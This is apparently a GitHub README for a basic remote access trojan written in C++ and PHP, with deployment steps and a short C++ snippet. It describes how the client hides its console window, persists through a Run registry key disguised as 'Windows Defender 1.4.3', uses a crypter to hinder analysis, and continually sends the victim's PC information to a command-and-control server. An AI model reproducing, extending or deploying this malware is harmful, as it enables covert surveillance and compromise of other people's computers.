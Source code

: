 # Rat Base
A basic base for a Remote. Access. Tool. written in native C++ and PHP.

# Usage
This RAT is not like most others it sends a GET request with all its data split by `|` to a API.
This RAT is primarily made for recon as it doesn't provide any post-exploitation modules but that might be added in the feature as well as a frontend.
You should launch this server on a nginx or apache2 server with PHP installed.
Then compile the client with updated CNC IPv4, and Port.

# How does it work?
In the first line of the client it free's console so it's hidden (obviously)
then it creates registry values in `SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run` called `Windows Defender 1.4.3` to infect it to startup.
using RCrypter to make it very hard to debug and analyze on runtime-
It then creates a loop that is going to run forever (well not forever since it's uncertain but you know what I mean) where it then gets PC info and pushes it to db
```cpp
PCInfo* LocalPC;

	while (true) {
		LocalPC = new PCInfo(); // Makes new instance of the computers info

		LocalPC->PushData(); // Pushes PC data to web-server

		Sleep(1000);
	}
```

# Why?
This project was for me to see if i could make one with clean and code.


